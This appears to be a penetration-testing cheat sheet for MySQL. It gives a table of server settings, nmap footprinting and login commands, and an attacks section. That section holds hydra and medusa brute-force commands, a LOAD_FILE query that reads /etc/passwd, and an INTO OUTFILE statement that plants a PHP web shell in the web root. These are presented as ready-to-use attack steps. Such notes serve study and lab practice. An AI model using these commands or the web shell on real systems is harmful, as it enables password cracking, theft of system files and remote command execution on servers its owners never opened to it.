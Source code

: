 | Setting          | Description                                                                                          |
|------------------|------------------------------------------------------------------------------------------------------|
| user             | Sets which user the MySQL service will run as.                                                       |
| password         | Sets the password for the MySQL user.                                                                |
| admin_address    | The IP address on which to listen for TCP/IP connections on the administrative network interface.    |
| debug            | Indicates the current debugging settings.                                                            |
| sql_warnings     | Controls whether single-row INSERT statements produce an information string if warnings occur.       |
| secure_file_priv | Used to limit the effect of data import and export operations.                                        |

### Footprinting the Service
- nmap
```
sudo nmap 10.129.14.128 -sV -sC -p3306 --script mysql*
```
### Service Interaction
- mysql
```
mysql -u root -h 10.129.14.132
```
## Attacks
### Brutetforce
```bash
# hydra
hydra -l username -P /path/to/password-list.txt mysql://target-ip
hydra -L /path/to/usernames.txt -P /path/to/password-list.txt mysql://192.168.1.10

# medusa
medusa -h target-ip -u username -P /path/to/password-list.txt -M mysql
medusa -h 192.168.1.10 -U /path/to/usernames.txt -P /path/to/password-list.txt -M mysql
```
### Read local files
```mysql
# Find which directories can be accessed through MySQL, Null nothing is accessible. Dir name which onlt accessible , empty every thing accessible
SELECT variable_name, variable_value FROM information_schema.global_variables where variable_name="secure_file_priv"

SELECT LOAD_FILE("/etc/passwd")
```
### Write local files
```mysql
# Find which directories can be accessed through MySQL, Null nothing is accessible. Dir name which onlt accessible , empty every thing accessible
SELECT variable_name, variable_value FROM information_schema.global_variables where variable_name="secure_file_priv"

select '<?php system($_REQUEST[0]); ?>' into outfile '/var/www/html/shell.php'
```
